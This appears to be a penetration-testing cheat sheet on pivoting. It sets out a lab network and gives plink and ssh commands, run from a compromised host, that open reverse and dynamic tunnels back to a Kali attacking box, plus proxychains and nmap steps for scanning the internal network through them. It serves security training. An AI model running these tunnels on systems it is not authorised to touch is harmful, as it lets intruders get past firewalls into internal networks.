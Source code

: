 
The Attacking Box (Kali Linux)   
IP: 192.168.1.16   
Netmask: 255.255.255.0   
Gateway: 192.168.1.1   

The pivot host (Windows XP) or linux     
User: lowuser   
FIRST IP: 192.168.1.30   
Netmask: 255.255.255.0   
SECOND IP: 10.0.0.2   
Netmask: 255.0.0.0    

Web server    
IP: 10.0.0.10   
Netmask: 255.0.0.0   

# Port Forwarding
 
Plink.exe is Windows binary for ssh can be found at:   
`/usr/share/windows-resources/binaries/plink.exe`   

### Remote Forwarding

To get to server at 10.0.0.10

From Target   
`plink 192.168.1.16 -P 22 -C -R 127.0.0.1:4444:10.0.0.10:80`   
`ssh -p 22  -R 127.0.0.1:4444:10.0.0.10:80 root@192.168.1.16`

From Kali   
`curl 127.0.0.1:4444`

### Local Forwarding

Firewall rule blocking 3389

From Target   
`plink 192.168.1.16 -P 22 -C -L 192.168.1.30:3390:192.168.1.30:3389`   
`ssh -p 22 -L 192.168.1.30:3390:192.168.1.30:3389 root@192.168.1.16`

From Kali   
`rdesktop 192.168.1.30:3390`

### Dynamic Forwarding

From target    
`plink 192.168.1.16 -P 22 -C -R 127.0.0.1:2222:22`    
`ssh -f -N -R 2222:127.0.0.1:22 root@192.168.1.16`

From Kali   
`ssh -f -N -D 127.0.0.1:8080 -p 2222 lowuser@127.0.0.1`

`vi /etc/proxychains.conf`   
`socks4   127.0.0.1   8080`

`proxychains nmap -sT -Pn <IP>`



### Other tools

HTTPTunnel   

stunnel 

socat

Reference:   
https://www.cybrary.it/0p3n/pivot-network-port-forwardingredirection-hands-look/   
https://technostuff.blogspot.com/2008/10/some-useful-socat-commands.html    
